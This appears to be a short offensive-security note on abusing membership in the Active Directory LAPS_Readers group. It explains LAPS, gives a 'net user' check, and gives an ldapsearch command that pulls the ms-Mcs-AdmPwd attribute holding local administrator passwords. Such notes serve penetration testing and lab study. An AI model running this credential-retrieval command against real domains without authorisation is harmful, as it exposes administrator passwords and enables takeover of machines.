

# Group

## LAPS\_Readers

The '_Local Administrator Password Solution_' (_**LAPS**_) provides management of local account passwords of domain-joined computers. Passwords are stored in Active Directory (_**AD**_) and protected by _**ACL,**_ so only eligible users can read them or request its reset.

```bash
# checking the user group
net user <user>
```

<figure><figcaption><p>Run the command of net user svc_deploy</p></figcaption></figure>

### LDAPsearch: Grab the credentials from LDAP

```bash
ldapsearch -x -H ldap://example.com -b "dc=example,dc=com" -D "user@example.com" -W | grep "ms-Mcs-AdmPwd"
```
